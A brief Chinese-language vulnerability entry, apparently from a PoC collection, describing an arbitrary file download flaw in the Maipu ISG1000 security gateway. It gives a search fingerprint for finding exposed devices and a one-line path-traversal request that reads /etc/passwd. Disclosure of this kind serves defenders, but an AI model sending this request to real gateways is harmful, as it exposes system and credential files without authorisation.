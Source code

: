 # 

# 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## 网络测绘

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](./images/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](./images/202202110950317.png)
